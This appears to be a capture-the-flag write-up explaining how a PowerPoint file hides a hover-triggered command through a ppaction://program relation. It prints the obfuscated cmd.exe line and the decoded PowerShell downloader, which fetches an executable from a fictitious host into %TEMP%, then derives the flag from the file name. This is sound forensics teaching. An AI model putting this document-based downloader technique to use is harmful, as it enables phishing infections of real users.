 **Description**: -

**Stars**: 2/5

**Downloadable**:
Alien Weaknesses.pptx - a PowerPoint presentation

**Goal**: Given the Alien Weaknesses.pptx file, get the flag

**Solution**: 

Quite interesting challenge, using a very specific ability of Office documents to have external relations.
As we know, the new Office document format since 2007 is basically just a zipped folder of different .xml files describing it. So, first thing we need to do is unpack it with any zip extractor.

Then we can check what’s inside. Powerpoint presentation, has a standard office document format with documentpProperties etc. + ppt folder with one xml file per slide (in this case only one). We will start here to see what’s actually included int the slide.

![Slide1](writeup\slide1.png)

This looks interesting, there’s an image with a strange directive for “a:hlinkHover” event. But what does it mean? 

`ppaction://program` is in fact documented by Microsoft here: https://docs.microsoft.com/en-us/openspecs/office_standards/ms-oi29500/a65b76db-6abc-4989-8cd1-baa9a3500f6f

`[It] specifies that the link shall run an application external to this presentation package. The r:id attribute for this element specifies the corresponding relationship containing the reference to the application. `

So now we need to check this r:id object. Seems this is a relation object and all relations can be usually found in `__rel` folder.

If we check there, we can see that relation `rId2` is in fact an URL encoded command line argument, that is executed after mouse hovers over the image in presentation.

![Slide1](writeup\relation2.png)

What does it do? Well it is a URL encoded command, so we can decode it in CybeChef:

```Batchfile
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"
```

It seems to contain a reversed command string for additional obfuscation. After we reverse it (again in cyberchef) we can see it’s a powershell command:

```powershell
powershell -c "$o = $env:temp  + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```

It seems to be downloading an executable to the %TEMP% folder, but the domain doesn’t exist. Normally this would be a part of code that we call a “Downloader” malware. Its purpose is to download and execute next stage of the infection chain.

In this case what is interesting for us is file name. It looks like a base64, and in fact if we decode it kind of gives us a flag, but this flag is not yet correct: `CHTB{pH1sHiNg_w0_m4cr0s.Ïß`

There seems to be something wrong in the end. Indeed it is a base64 with slightly changed alphabet (malware actors sometimes change base64 alphabet for additional obfuscation). In this case we have something that is called “URL_safe base64 and is a part of standard RFC 4648 for base encodings. We can choose it as an option in CyberChef and it will give us a correct flag: `CHTB{pH1sHiNg_w0_m4cr0s???}`
